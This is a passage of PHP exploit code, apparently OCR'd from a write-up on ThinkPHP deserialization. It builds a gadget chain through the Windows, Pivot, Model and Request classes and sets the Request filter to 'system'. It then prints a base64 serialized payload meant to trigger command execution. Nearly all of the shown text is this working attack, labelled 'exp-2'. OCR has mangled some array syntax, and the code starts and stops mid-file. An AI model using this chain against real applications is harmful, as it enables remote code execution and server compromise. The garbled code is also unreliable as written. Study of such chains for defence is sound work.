 ```php
}

namespace think\model;
use think\Model;

class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

- exp-2

```php
<?php
namespace think;
abstract class Model{
protected $append = [];
    private $data = [];
    function __construct(){
        $this->data = ['H3rmesk1t' =new Request()];
        $this->append = ['H3rmesk1t' =[]];
    }
}
class Request{
    protected $filter;
    protected $hook = [];
    protected $config = [
        // Form request type camouflage variable
        'var_method' ='_method',
        // Form ajax camouflage variable
        'var_ajax' ='_ajax',
        // Form pjax camouflage variable
        'var_pjax' ='_pjax',
        // PATHINFO variable name is used for compatibility mode
        'var_pathinfo' ='s',
        // PATH_INFO compatible obtain
        'pathinfo_fetch' =['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // Default global filtering method: Separate multiple with commas
        'default_filter' ='',
        // Domain root, such as thinkphp.cn
        'url_domain_root' ='',
        // HTTPS proxy identifier
        'https_agent_name' ='',
        // IP proxy obtains the identifier
        'http_agent_ip' ='HTTP_X_REAL_IP',
        // URL pseudostatic suffix
        'url_html_suffix' ='html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ['var_pjax' =''];
        $this->hook = ['visible' =[$this,'isPjax']];
    }
}
namespace think\process\pipes;
use think\model\Pivot;

class Windows{
    private $files = [];
    public function __construct(){
        $this->files = [new Pivot()];
```